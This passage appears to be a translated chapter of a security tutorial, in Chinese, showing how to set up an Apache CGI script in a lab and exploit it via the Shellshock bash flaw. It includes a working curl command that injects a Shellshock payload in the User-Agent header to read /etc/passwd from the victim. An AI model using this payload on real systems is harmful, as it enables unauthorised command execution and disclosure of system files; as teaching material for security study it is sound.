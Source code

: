 我们可以看到，尽管我们在脚本中限制了`date`命令，但这次它被执行了，并且我们得到了`date`命令的输出。

让我们看看如何利用 Shellshock 漏洞来 compromise 一个运行任何可以触发带环境变量的 bash shell 的 Apache 服务器：

1.  如果受害系统上尚未安装 Apache，我们首先使用此命令安装它：

```
apt-get install apache2

```

安装完成后，我们使用此命令启动 Apache 服务器：

```
service apache2 start

```

1.  接下来，我们转到`/usr/lib/cgi-bin/`路径，并创建一个`example.sh`脚本，其中包含以下代码，以显示一些 HTML 输出：![如何做…](img/B04234_09_19.jpg)

然后，我们通过运行此命令使其可执行：

```
chmod +x example.sh

```

1.  从攻击者的系统中，我们尝试使用名为**curl**的命令行工具远程访问`example.sh`文件：![如何做…](img/B04234_09_20.jpg)

我们得到了预期的脚本输出，即`Example Page`。

1.  现在，让我们使用 curl 发送一个恶意请求到服务器，以打印受害系统的`/etc/passwd`文件的内容，通过运行此命令：

```
curl -A ''() { :;}; echo ""Content-type: text/plain""; echo; /bin/cat /etc/passwd http://192.168.1.104/cgi-bin/example.sh

```

![如何做…](img/B04234_09_21.jpg)
